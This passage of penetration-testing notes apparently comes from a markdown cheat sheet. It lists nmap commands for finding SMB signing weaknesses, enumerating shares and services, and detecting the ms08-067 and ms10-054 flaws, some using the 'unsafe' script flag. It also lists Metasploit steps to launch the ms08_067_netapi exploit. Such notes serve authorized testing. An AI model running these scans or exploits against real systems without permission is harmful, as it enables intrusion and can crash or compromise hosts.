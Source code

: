```
grep -B10 -E 'Message signing enabled but not required|Message signing is disabled and not required!|Message signing is disabled!' vscans/smb2ProtoSigning.nmap |extractIPs
```

Additional enumeration: SMB general info

```
nmap -n -sU -sS -Pn -pT:139,445,U:137 -sV --script=smb-os-discovery,smb-security-mode,smb-system-info,smb2-capabilities,smb2-security-mode,smb2-time -T4 -iL smbServices.txt -oA vscans/smbServices-enumOverview.out

Follow up:
https://nmap.org/nsedoc/scripts/smb-brute.html
https://nmap.org/nsedoc/scripts/smb-enum-domains.html
https://nmap.org/nsedoc/scripts/smb-enum-groups.html
https://nmap.org/nsedoc/scripts/smb-enum-processes.html
https://nmap.org/nsedoc/scripts/smb-enum-services.html
https://nmap.org/nsedoc/scripts/smb-enum-sessions.html
https://nmap.org/nsedoc/scripts/smb-enum-shares.html
https://nmap.org/nsedoc/scripts/smb-enum-users.html
```

Writable shares:

```
nmap -n --script=smb-enum-shares -T4 -p445 -iL smbServices.txt -oA vscans/smbEnumShares
```

Vulnerability: ms08-067

```
Reference: https://nmap.org/nsedoc/scripts/smb-vuln-ms08-067.html 
Affected: Windows Server 2000, Windows Server 2003, and Windows XP

Discovery:
nmap -sS -sU --script smb-vuln-ms08-067.nse -pT:445,139,U:137 -iL smbServices.txt --open -d | tee smb-vuln-ms08-067.out

Exploitation:
msf5 > use exploit/windows/smb/ms08_067_netapi
set RHOSTS <IP>
```

Vulnerability: ms10-054

```
Reference: https://nmap.org/nsedoc/scripts/smb-vuln-ms10-054.html
Notes: The script requires at least READ access right to a share on a remote machine.

Discovery:
nmap  -p 445 <target> --script=smb-vuln-ms10-054 --script-args unsafe -d
nmap -sS -sU --script smb-vuln-ms10-054.nse --script-args unsafe -pT:445,139,U:137 -iL smbServices.txt --open -d | tee smb-vuln-ms10-054.out
# grep for 'true' in smb-vuln-ms10-054.out
```
